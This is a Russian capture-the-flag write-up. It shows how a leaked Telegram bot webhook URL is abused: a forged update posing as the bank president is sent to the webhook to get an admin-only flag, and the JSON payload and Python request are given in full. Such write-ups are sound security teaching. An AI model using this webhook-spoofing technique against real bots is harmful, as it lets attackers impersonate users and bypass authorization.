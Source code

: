 # Обман системы: Write-up

Вспоминаем про нашего бота [@bank_bank_bot](https://t.me/bank_bank_bot), заходим в него, видим команду `/flag`.

Однако, воспользоваться ей не получится:

```
Nikita Sychev, [23.02.19 01:09]
/flag

[bank Bank], [23.02.19 01:09]
Не указан telegram_id: /flag <telegram_id>

Nikita Sychev, [23.02.19 01:09]
/flag 123456

[bank Bank], [23.02.19 01:09]
Данная команда доступна только администрации ПАО «Финансовая Корпорация «Банк Банк Кредитные Системы»
```

Значит, нужно, чтобы эту команду выполнил кто-то из администрации Банка, причем с ID участника.

Заранее узнаем свой ID в Телеграме, например, с помощью ботов, веб-версии или кастомного клиента.

Вспоминаем решенный таск __DNS-сервера__ и вглядываемся в слитую зону. Как описано в таске __Исходные коды__, определяем, что на `https://botapi.bankbank.exposed` висит какой-то `CGIHTTPServer`. Однако, сейчас нам намного важнее не «исходники», а сам этот сервер.

Путем несложных манипуляций и логических эвристик определяем, что там крутится сервер для приёма обновлений ботом от Telegram методом [webhook](https://core.telegram.org/bots/api#setwebhook), причем рекомендации по безопасности (хранить URL в секрете) успешно игнорируются.

Что ж, отлично, сформируем фейковый запрос от Телеграма на отправку флага. Но кого мы укажем в качестве отправителя? Ответ очевиден — мы решили таск __CEO__ и узнали Telegram Президента Банка. Вот и всё.

Сформируем фейковое обновление:

```json
{
 "update_id": 0,
 "message": {
  "message_id": 0,
  "from": {
   "id": 617326093,
   "is_bot": false,
   "first_name": "Efrosinya",
   "last_name": "Puzakova",
   "username": "puzakova_the_gr347",
   "language_code": "en"
  },
  "chat": {
    "id": 617326093,
    "first_name": "Efrosinya",
    "last_name": "Puzakova",
    "username": "puzakova_the_gr347",
    "type": "private"
  },
  "date": 0,
  "text": "/flag TELEGRAM_ID"
 }
}
```

И отправим его:

```python
requests.post("https://botapi.bankbank.exposed", json=data)
```

Флаг: **uctf_webhookwebhook_exposed**
